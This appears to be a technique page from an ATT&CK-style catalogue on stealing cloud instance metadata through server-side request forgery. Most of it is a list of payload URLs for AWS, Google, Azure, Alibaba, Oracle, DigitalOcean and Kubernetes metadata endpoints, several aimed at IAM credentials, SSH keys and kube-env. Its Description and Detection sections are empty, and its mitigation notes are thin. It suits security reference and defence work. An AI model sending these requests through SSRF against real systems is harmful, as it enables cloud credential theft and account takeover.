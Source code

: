 # Gain Cloud Metadate by SSRF

---
* **ID**: T1701
* **Tactic**: Initial Access
* **Platform**: AWS、Azure、Google、Alibaba Cloud
* **Required Permissions**: User
* **Data Sources**: Cloud local metadata

---

# Description

# Examples

## AWS 
### Amazon Web Services (No Header Required)
### from http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories
* http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
* http://169.254.169.254/latest/user-data
* http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
* http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
* http://169.254.169.254/latest/meta-data/ami-id
* http://169.254.169.254/latest/meta-data/reservation-id
* http://169.254.169.254/latest/meta-data/hostname
* http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
* http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key

### ECS Task: https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-metadata-endpoint-v2.html
* http://169.254.170.2/v2/credentials/

## Google Cloud (Header Sometimes Required)
###  https://cloud.google.com/compute/docs/metadata
###  - Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True" on API v1
###  - Most endpoints can be accessed via the v1beta API without a header
* http://169.254.169.254/computeMetadata/v1/
* http://metadata.google.internal/computeMetadata/v1/
* http://metadata/computeMetadata/v1/
* http://metadata.google.internal/computeMetadata/v1/instance/hostname
* http://metadata.google.internal/computeMetadata/v1/instance/id
* http://metadata.google.internal/computeMetadata/v1/project/project-id

### kube-env; thanks to JackMc for the heads up on this (https://hackerone.com/reports/341876)
* http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env
### Google allows recursive pulls 
* http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
### returns root password for Google
* http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/?recursive=true&alt=json

## Digital Ocean (No Header Required)
### https://developers.digitalocean.com/documentation/metadata/
* http://169.254.169.254/metadata/v1.json
* http://169.254.169.254/metadata/v1/ 
* http://169.254.169.254/metadata/v1/id
* http://169.254.169.254/metadata/v1/user-data
* http://169.254.169.254/metadata/v1/hostname
* http://169.254.169.254/metadata/v1/region
* http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

### Packetcloud
* https://metadata.packet.net/userdata

## Azure (Header Required)
### Header: "Metadata: true"
### https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service
### (Old: ) https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/
* http://169.254.169.254/metadata/instance?api-version=2017-04-02
* http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text

## Oracle Cloud (No Header Required)
### https://docs.us-phoenix-1.oraclecloud.com/Content/Compute/Tasks/gettingmetadata.htm
* http://169.254.169.254/opc/v1/instance/

## Alibaba
### https://www.alibabacloud.com/help/faq-detail/49122.htm
* http://100.100.100.200/latest/meta-data/
* http://100.100.100.200/latest/meta-data/instance-id
* http://100.100.100.200/latest/meta-data/image-id

## OpenStack/RackSpace 
### https://docs.openstack.org/nova/latest/user/metadata-service.html
* http://169.254.169.254/openstack	 

## Oracle Cloud
### https://docs.oracle.com/en/cloud/iaas/compute-iaas-cloud/stcsg/retrieving-instance-metadata.html
* http://192.0.0.192/latest/
* http://192.0.0.192/latest/user-data/
* http://192.0.0.192/latest/meta-data/
* http://192.0.0.192/latest/attributes/

## Kubernetes
### Debug Services (https://kubernetes.io/docs/tasks/debug-application-cluster/debug-service/)
* https://kubernetes.default.svc.cluster.local
* https://kubernetes.default

# Mitigation
### Google Cloud
* Deny Http Header X-Forwarded-For 
* Add Header Metadata-Flavor: Google
* curl "http://metadata.google.internal/computeMetadata/v1/instance/tags?wait_for_change=true&last_etag=411261ca6c9e654e" -H "Metadata-Flavor: Google"


# Detection

# References

* http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
* http://docs.openstack.org/admin-guide-cloud/content/section_metadata-service.html
* https://gist.github.com/BuffaloWill/fa96693af67e3a3dd3fb
* https://www.notsosecure.com/exploiting-ssrf-in-aws-elastic-beanstalk/
* https://hackerone.com/reports/401136
* https://cloud.google.com/compute/docs/storing-retrieving-metadata
